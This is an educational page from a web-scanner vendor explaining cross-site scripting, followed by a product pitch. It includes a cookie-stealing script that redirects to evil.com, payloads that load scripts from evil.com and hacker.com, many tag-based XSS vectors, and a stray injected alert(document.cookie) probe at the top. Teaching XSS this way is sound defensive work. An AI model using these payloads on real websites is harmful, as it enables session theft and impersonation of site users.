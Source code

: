 Role Name
=========

"></code></span></div><br>hello world</br><script>alert(document.cookie)</script>


SKIP TO CONTENT
TRY 
BUY 
COMPANY 
SUPPORT 
LEARN 
GET DEMO
Is Your Website Hackable?
70% are. Detect and action with Acunetix
 

Vulnerability Scanner
Indepth Crawl & Analysis
Highest Detection Rate
Lowest False Positives
Vulnerability Management
WordPress Checks
Network Security
Advanced Features
Cross-site Scripting (XSS) Attack
Cross-site Scripting (XSS) refers to client-side code injection attack wherein an attacker can execute malicious scripts (also commonly referred to as a malicious payload) into a legitimate website or web application. XSS is amongst the most rampant of web application vulnerabilities and occurs when a web application makes use of unvalidated or unencoded user input within the output it generates.

By leveraging XSS, an attacker does not target a victim directly. Instead, an attacker would exploit a vulnerability within a website or web application that the victim would visit, essentially using the vulnerable website as a vehicle to deliver a malicious script to the victim’s browser.

While XSS can be taken advantage of within VBScript, ActiveX and Flash (although now considered legacy or even obsolete), unquestionably, the most widely abused is JavaScript – primarily because JavaScript is fundamental to most browsing experiences.

How Cross-site Scripting works
In order to run malicious JavaScript code in a victim’s browser, an attacker must first find a way to inject a payload into a web page that the victim visits. Of course, an attacker could use social engineering techniques to convince a user to visit a vulnerable page with an injected JavaScript payload.

In order for an XSS attack to take place the vulnerable website needs to directly include user input in its pages. An attacker can then insert a string that will be used within the web page and treated as code by the victim’s browser.

The following server-side pseudo-code is used to display the most recent comment on a web page.

print "<html>"
print "<h1>Most recent comment</h1>"
print database.latestComment
print "</html>"
The above script is simply printing out the latest comment from a comments database and printing the contents out to an HTML page, assuming that the comment printed out only consists of text.

The above page is vulnerable to XSS because an attacker could submit a comment that contains a malicious payload such as <script>doSomethingEvil();</script>.

Users visiting the web page will get served the following HTML page.

<html>
<h1>Most recent comment</h1>
<script>doSomethingEvil();</script>
</html>
When the page loads in the victim’s browser, the attacker’s malicious script will execute, most often without the user realizing or being able to prevent such an attack.

Important Note — An XSS vulnerability can only exist if the payload (malicious script) that the attacker inserts ultimately get parsed (as HTML in this case) in the victim’s browser
What’s the worst an attacker can do with JavaScript?
The consequences of what an attacker can do with the ability to execute JavaScript on a web page may not immediately stand out, especially since browsers run JavaScript in a very tightly controlled environment and that JavaScript has limited access to the user’s operating system and the user’s files.

However, when considering that JavaScript has access to the following, it’s easier to understand how creative attackers can get with JavaScript.

Malicious JavaScript has access to all the same objects the rest of the web page has, including access to cookies. Cookies are often used to store session tokens, if an attacker can obtain a user’s session cookie, they can impersonate that user.
JavaScript can read and make arbitrary modifications to the browser’s DOM (within the page that JavaScript is running).
JavaScript can use XMLHttpRequest to send HTTP requests with arbitrary content to arbitrary destinations.
JavaScript in modern browsers can leverage HTML5 APIs such as accessing a user’s geolocation, webcam, microphone and even the specific files from the user’s file system. While most of these APIs require user opt-in, XSS in conjunction with some clever social engineering can bring an attacker a long way.
The above, in combination with social engineering, allow attackers to pull off advanced attacks including cookie theft, keylogging, phishing and identity theft. Critically, XSS vulnerabilities provide the perfect ground for attackers to escalate attacks to more serious ones.

“Isn’t Cross-site scripting the user’s problem?”
If an attacker can abuse a XSS vulnerability on a web page to execute arbitrary JavaScript in a visitor’s browser, the security of that website or web application and its users has been compromised — XSS is not the user’s problem, like any other security vulnerability, if it’s affecting your users, it will affect you.

The anatomy of a Cross-site Scripting attack
An XSS attack needs three actors — the website, the victim and the attacker.

In the example below, it shall be assumed that the attacker’s goal is to impersonate the victim by stealing the victim’s cookie. Sending the cookie to a server the attacker controls can be achieved in a variety of ways, one of which is for the attacker to execute the following JavaScript code in the victim’s browser through an XSS vulnerability.

<script>
   window.location=“http://evil.com/?cookie=” + document.cookie
</script>
The figure below illustrates a step-by-step walkthrough of a simple XSS attack.

Cross site scripting

The attacker injects a payload in the website’s database by submitting a vulnerable form with some malicious JavaScript
The victim requests the web page from the website
The website serves the victim’s browser the page with the attacker’s payload as part of the HTML body.
The victim’s browser will execute the malicious script inside the HTML body. In this case it would send the victim’s cookie to the attacker’s server. The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives to the server, after which the attacker can use the victim’s stolen cookie for impersonation.
Some examples of Cross-site Scripting attack vectors
The following is a non-exhaustive list of XSS attack vectors that an attacker could use to compromise the security of a website or web application through an XSS attack. A more extensive list of XSS payload examples is maintained here.

<script> tag
The <script> tag is the most straight-forward XSS payload. A script tag can either reference external JavaScript code, or embed the code within the script tag.


<!-- External script -->
<script src=http://evil.com/xss.js></script>
<!-- Embedded script -->
<script> alert("XSS"); </script>
<body> tag
An XSS payload can be delivered inside <body> tag by using the onload attribute or other more obscure attributes such as the background attribute.

<!-- onload attribute -->
<body onload=alert("XSS")>
<!-- background attribute -->
<body background="javascript:alert("XSS")">
<img> tag
Some browsers will execute JavaScript when found in the <img>.

<!-- <img> tag XSS -->
<img src="javascript:alert("XSS");">
<!--  tag XSS using lesser-known attributes -->
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
<iframe> tag
The <iframe> tag allows the embedding of another HTML page into the parent page. An IFrame can contain JavaScript, however, it’s important to note that the JavaScript in the iFrame does not have access to the DOM of the parent’s page due to the browser’s Content Security Policy (CSP). However, IFrames are still very effective means of pulling off phising attacks.

<!-- <iframe> tag XSS -->
<iframe src=”http://evil.com/xss.html”>
<input> tag
In some browsers, if the type attribute of the <input> tag is set to image, it can be manipulated to embed a script.

<!-- <input> tag XSS -->
<input type="image" src="javascript:alert('XSS');">
<link> tag
The <link> tag, which is often used to link to external style sheets could contain a script.

<!-- <link> tag XSS -->
<link rel="stylesheet" href="javascript:alert('XSS');">
<table> tag
The background attribute of the table and td tags can be exploited to refer to a script instead of an image.

<!-- <table> tag XSS -->
<table background="javascript:alert('XSS')">
<!-- <td> tag XSS -->
<td background="javascript:alert('XSS')">
<div> tag
The <div> tag, similar to the <table> and <td> tags can also specify a background and therefore embed a script.

<!-- <div> tag XSS -->
<div style="background-image: url(javascript:alert('XSS'))">
<!-- <div> tag XSS -->
<div style="width: expression(alert('XSS'));">
<object> tag
The <object> tag can be used to include in a script from an external site.

<!-- <object> tag XSS -->
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
Is your website or web application vulnerable to Cross-site Scripting?
XSS vulnerabilities are amongst the most widespread web application vulnerabilities on the Internet. Fortunately, it’s easy to test if your website or web application is vulnerable to XSS and other vulnerabilities by running an automated web vulnerability scan using Acunetix. Download the 14-day free on premise trial, or register to our online service to run a scan against your website or web application.

Further reading
Types of XSS

A comprehensive tutorial on Cross-site Scripting

XSS Prevention Cheat Sheet

Subscribe for Updates

Enter E-Mail

Learn More
Jenkins Plugin
WordPress Hack
Drupal Security
Joomla! Security
Web Security
Website Audit
HTML5 Website
Web Service Security
Blog Categories
Web Security Zone
Docs & FAQs
News
Releases
Events
Find Us on Facebook

Product Information
AcuSensor Technology
AcuMonitor Technology
Network Security Scanner
Acunetix Integrations
JavaScript Security
Website Security
Cross-site Scripting
SQL Injection
Reflected XSS
CSRF Attacks
Directory Traversal
Learn More
TLS Security
Securing MySQL Server
WordPress Security
Web Service Security
Prevent SQL Injection
Documentation
FAQs
Videos
Web Vulnerabilities
Network Vulnerabilities
Trojans and Backdoors
© Acunetix, 2018
Acunetix Online Login
Privacy Policy
Terms and Conditions
Follow us on LinkedIn
Follow us on Twiter
Find us on Facebook
